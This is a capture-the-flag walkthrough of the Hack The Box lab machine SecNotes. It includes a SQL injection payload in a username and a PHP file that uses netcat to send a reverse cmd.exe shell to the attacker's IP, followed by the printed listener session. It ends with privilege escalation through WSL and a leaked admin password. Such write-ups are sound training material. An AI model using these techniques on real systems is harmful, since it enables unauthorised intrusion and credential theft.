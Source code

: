 ### HTB SecNotes    10.10.10.97  

First things first, check nmap, always and forever.

```
???(kali?kali)-[~]
??$ sudo nmap -T4 -p- -Pn 10.10.10.97                                                     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:32 EDT
Nmap scan report for 10.10.10.97
Host is up (0.044s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 94.61 seconds
```

Looks like we got 80, 445, and 8808.  I know what 80 and 445 are...but what's ssports-bcast on 8808.  Not sure, let's find out a bit more.

```
???(kali?kali)-[~]
??$ sudo nmap -p 8808 -A 10.10.10.97      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:44 EDT
Nmap scan report for 10.10.10.97
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8808/tcp)
HOP RTT      ADDRESS
1   47.55 ms 10.10.14.1
2   47.68 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.06 seconds
```

Ok then.  Looks like another http port.  And we see (if we didn't know already) that this is a Windows machine.  At this point, I'm going to start poking at the webserver to see if I can find anything there.

Fire up the browser, go check it out and upon initial visit I get a login page.  Inputs, wonder if these are vulnerable to injection of any sort.

![No Account](/HTB3SecNotes/Images/pic1.png)

Doesn't look like it on the login page.  Lets create an account.

Create that with test username and get all logged in and looks like we have a note taking app.

![App View](/HTB3SecNotes/Images/pic2.png)

You can also see that we have a username.  Tyler.  Let's keep that in our backpocket for now.  Let's test the account creation page for any type of injection.

So, create an account named `'OR 1 OR'` and then sign in and now look what I get.

![Logged in](/HTB3SecNotes/Images/pic3.png)

And if I open these notes out, looks like I get a list of years, a recipie....and, what's this....a password?

![Tyler's password](/HTB3SecNotes/Images/pic4.png)

So far, interesting.  I think I've pretty much gotten admin on the webapp, even grabbed a password out along with a directory.

Before we move on, let's check to see what port 8808 was.

![Basic IIS Page](/HTB3SecNotes/Images/pic5.png)

Looks like just a basic IIS page.  Nothing too fancy.  So let's take our new found username and password and give that a go on the 445 port (SMB).

```
???(kali?kali)-[~]
??$ smbclient -U 'tyler' \\\\10.10.10.97\\new-site
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.10.97\new-site\
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

                7736063 blocks of size 4096. 3394438 blocks available
smb: \> 

```

Looks like I'm working under the website pointed at by 8808.  And Tyler's password worked to get here.  So far not too bad.  Now to see if I can get myself a shell.  So I think here, since I already know the server handles php, we're gonna make that out.

First, let's get our php written out.  Here we're going to use php system() to call nc.exe (netcat) and execute (`-e`) cmd.exe to my IP over port 4444.

![php file](/HTB3SecNotes/Images/pic6.png)

Going to get my netcat listener started in a new terminal tab.

```
???(kali?kali)-[~]
??$ nc -nvlp 4444   
listening on [any] 4444 ...
```

Then we put our files to the server.

```
smb: \> put nc.exe
putting file nc.exe as \nc.exe (244.7 kb/s) (average 244.7 kb/s)
smb: \> put shell.php 
putting file shell.php as \shell.php (0.4 kb/s) (average 155.6 kb/s)
smb: \> ls
  .                                   D        0  Tue Oct  8 00:28:39 2024
  ..                                  D        0  Tue Oct  8 00:28:39 2024
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  nc.exe                              A    59392  Tue Oct  8 00:28:32 2024
  shell.php                           A       54  Tue Oct  8 00:28:39 2024

                7736063 blocks of size 4096. 3394297 blocks available
```

Go back to the browser and go to 10.10.10.97:8808/shell.php and guess what.

```
??(kali?kali)-[~]
??$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.97] 52009
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>
```

Ok, so now we have a shell.  So let's get some things figured out.  Run a quick `whoami` and find out that we are under the user tyler.

Since this is a Windows subsystem for linux, we're looking for wsl.exe.  After some research and checking payloadsallthethings, we do find a small section Windows Subsystem for Linux that talks about wsl.exe and bash.exe.  So we find it by the following

```
C:\inetpub\new-site>where /R c:\windows wsl.exe
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe

C:\inetpub\new-site>where /R c:\windows bash.exe
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Now that we have that info, we can check who the default user is for wsl.exe

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```

Ahh, it's in root.  Very interesting.  So, let's try this.

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
```

Now we can get some more info gathing going on and even use python to get to a shell.

```
whoami
root
hostname
SECNOTES
uname -a
Linux SECNOTES 4.4.0-17134-Microsoft #137-Microsoft Thu Jun 14 18:46:00 PST 2018 x86_64 x86_64 x86_64 GNU/Linux
python3 -c "import pty;pty.spawn('/bin/bash')"
root@SECNOTES:~# whoami
whoami
root
```

And look at that, we're root.  In a linux subsystem.  Quick `ls -a` shows we have a bash history.  Let's give that a check.

![history](/HTB3SecNotes/Images/pic7.png)

And would you look at that, an admin password.  How nice of them to leave this in the history like that.

Well now that we have that, we win.  So open a new tab and give psexec.py a go and what do we get?

![Whoami](/HTB3SecNotes/Images/pic8.png)

And now we get the flag.  And another one taken down!!  That's how we do it.

![Root Flag boiiii](/HTB3SecNotes/Images/pic9.png)

Thanks for coming with me on this little adventure!!  More to come soon! :D
